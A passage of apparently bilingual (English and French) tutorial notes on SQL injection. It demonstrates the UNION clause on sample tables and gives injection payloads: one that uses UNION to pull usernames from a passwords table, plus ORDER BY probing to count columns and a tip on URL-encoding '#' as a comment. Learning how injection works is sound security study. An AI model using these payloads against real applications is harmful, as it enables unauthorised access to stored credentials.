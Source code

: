 Tip: if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.

## Union Clause : 

```sql
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+

mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+


mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

Note: The data types of the selected columns on all positions should be the same.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

## Union Injection : 

On doit savoir le nombre de colonnes de la table avant de faire une injection SQL avec ORDER BY.

```sql
' order by 1-- -
```

Puis 2,3 ... jusqu'à avoir une erreur.
